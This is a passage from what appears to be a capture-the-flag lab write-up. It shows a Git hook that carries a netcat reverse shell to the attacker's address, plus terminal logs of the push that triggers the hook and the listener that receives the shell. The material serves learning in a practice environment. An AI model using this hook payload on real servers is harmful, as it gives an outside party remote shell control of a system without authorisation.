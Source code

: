 ## Flag 2

Since this user can add `Git Hooks` to the repositories, I created a new one and used an exploit similar to this one, for an old THM machine, named [Git And Crumpets](https://lanfran02.github.io/posts/gitandcrumpets/).

Here is the exploit that we used:
```bash
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.9.6.53 1337 >/tmp/f
```
![expl](expl.png)


```bash
[Terminal 1]

╰─ lanfran@parrot ❯ touch crackme.md && git init && git add crackme.md && git commit -m "Exploiting" && git remote add origin http://10.10.24.160:31111/leeroy/vuln.git && git push -u origin master
hint: Using 'master' as the name for the initial branch. This default branch name
hint: is subject to change. To configure the initial branch name to use in all
hint: of your new repositories, which will suppress this warning, call:
hint: 
hint: 	git config --global init.defaultBranch <name>
hint: 
hint: Names commonly chosen instead of 'master' are 'main', 'trunk' and
hint: 'development'. The just-created branch can be renamed via this command:
hint: 
hint: 	git branch -m <name>
Initialized empty Git repository in /[...]/exploiting_git/.git/
[master (root-commit) b8dd8d4] Exploiting
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 crackme.md
Username for 'http://10.10.24.160:31111': leeroy
Password for 'http://leeroy@10.10.24.160:31111': 
Enumerating objects: 3, done.
Counting objects: 100% (3/3), done.
Writing objects: 100% (3/3), 214 bytes | 214.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0

----------------

[Terminal 2]

╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                  ─╯
listening on [any] 1337 ...
connect to [10.9.6.53] from (UNKNOWN) [10.10.24.160] 37783
```
